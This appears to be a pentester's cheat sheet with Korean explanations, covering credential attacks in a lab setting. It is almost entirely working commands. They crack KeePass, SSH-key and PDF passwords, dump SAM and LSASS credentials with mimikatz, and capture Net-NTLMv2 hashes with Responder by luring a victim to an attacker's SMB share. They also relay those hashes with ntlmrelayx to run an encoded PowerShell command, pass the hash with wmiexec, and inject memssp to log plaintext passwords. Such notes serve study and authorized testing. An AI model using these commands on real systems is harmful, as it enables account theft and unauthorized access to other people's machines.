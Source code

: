 # KeePass Password Cracking

``` powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- C 드라이브 전체에서 `.kdbx` 확장자를 가진 파일을 재귀적으로 검색.
- `-ErrorAction SilentlyContinue` 옵션은 접근 권한 오류 메시지를 숨김.

``` bash
keepass2john Database.kdbx > keepass.hash
```
``` bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
```
login with master password
```
---
# Keepass Dump file Cracking
```bash
python3 poc.py <file.dmp>

# sudo apt install keepassxc
keepassxc <file.kdbx>
```
- https://github.com/matro7sh/keepass-dump-masterkey
---
 
# SSH Private Key Passphrase Cracking

``` bash
ssh2john id_rsa > ssh.hash
```
``` bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
``` bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

---

# Cracking NTLM
``` bash
.\mimikatz.exe
```
``` bash
privilege::debug
```

- `privilege::debug` 명령은 디버그 권한을 활성화합니다.
- 이 권한이 있어야 LSASS 프로세스에 접근하여 자격 증명을 덤프할 수
    있습니다.

``` bash
token::elevate
```

-   토큰을 SYSTEM 권한으로 상승시켜, 보안 제한 없이 시스템 자원에
    접근합니다.


``` bash
lsadump::sam
```

-   SAM(Security Account Manager) 데이터베이스에서 사용자 계정의 해시를
    추출합니다.
-   출력된 해시는 `USERNAME:RID:LM_HASH:NTLM_HASH::: 형식`입니다.


``` bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

---
# Cracking Net-NTLMv2
``` bash
sudo responder -I tap0
```

-   Responder는 NTLM 인증 요청을 가로채서 해시를 수집하는
    도구입니다.
-   `-I tap0` : 사용할 네트워크 인터페이스 지정 (예: `eth0`, `wlan0`,
    `tap0`)
- Responder는 SMB, HTTP, FTP 등 프로토콜을 이용한 인증 요청에
응답해, 클라이언트가 보낸 Net-NTLMv2 해시를 캡처합니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유 경로에 접근하게 하여 인증 절차를 유도합니다.
-   이 과정에서 NTLM 인증이 발생하며, Responder가 해시를 가로챕니다.

> 예: 사용자가 `dir \\192.168.119.2\test` 명령을 실행하면, SMB 인증
> 요청이 발생.

``` bash
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
---
# Relaying Net-NTLMv2
``` bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

-   **impacket-ntlmrelayx**: NTLM 인증을 다른 서비스로 릴레이하여 권한을
    획득하는 도구입니다.
-   `--no-http-server` : HTTP 서버 기능 비활성화 (SMB 릴레이만 사용)
-   `-smb2support` : SMBv2 프로토콜 지원 활성화
-   `-t 192.168.50.212` : 릴레이할 타겟 서버 IP
-   `-c "powershell -enc ..."` : 인증 성공 시 실행할 명령 (여기서는
    Base64 인코딩된 PowerShell 명령)

- 공격자는 Net-NTLMv2 인증 요청을 가로채서, 이를 SMB 서비스가 열려 있는
다른 타겟으로 전달합니다.
타겟이 해당 인증을 신뢰하면, 명령 실행 권한을 얻게 됩니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유에 접근하게 하여 SMB 인증을
    유도합니다.
-   인증 요청은 공격자의 시스템을 거쳐 릴레이 타겟(`192.168.50.212`)로
    전달됩니다.
-   인증이 성공하면 지정한 PowerShell 명령이 타겟에서 실행됩니다.

---
# Windows Credential Guard enabled
## 1. 시스템 정보 확인

``` powershell
Get-ComputerInfo
```

-   현재 시스템의 OS 버전, 빌드 번호, 보안 설정 등을 확인합니다.
-   Credential Guard가 활성화되어 있는지 파악하는 데 도움이 됩니다.

## 2. Mimikatz 실행

``` bash
.\mimikatz.exe
```

## 3. 디버그 권한 획득

``` bash
privilege::debug
```

-   SeDebugPrivilege를 활성화하여 LSASS 등의 민감한 프로세스에 접근할 수
    있도록 합니다.
-   관리자 권한 필요.

## 4. 자격 증명 추출 시도

``` bash
sekurlsa::logonpasswords
```

-   현재 로그인된 세션의 사용자 이름, 도메인, 해시, 평문 비밀번호 등을
    덤프합니다.

-   **주의**: Credential Guard 활성화 시 평문 비밀번호 추출이 제한될 수
    있습니다.


## 5. Impacket을 이용한 원격 명령 실행

``` bash
impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
```


## 6. MemSSP(메모리 보안 지원 공급자) 주입

``` bash
misc::memssp
```

-   Mimikatz의 `memssp` 모듈은 LSASS에 SSP(Security Support Provider)를
    주입하여 이후 로그인 자격 증명을 `mimilsa.log` 파일에 기록하게
    합니다.
-   새로운 로그인 시도가 발생하면 해당 자격 증명이 평문으로 로깅됩니다.

------------------------------------------------------------------------

## 7. 캡처된 자격 증명 확인

``` bash
type C:\Windows\System32\mimilsa.log
```

-   MemSSP로 캡처된 평문 자격 증명을 확인합니다.
---
# Cracking pdf password
```bash
pdf2john Infrastructure.pdf > pdf.hash

john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 pdf.hash
```
---
# PPK to PEM
```bash
puttygen <file.ppk> -O private-openssh -o <file.pem>

ssh -i <file.pem> host@local
```
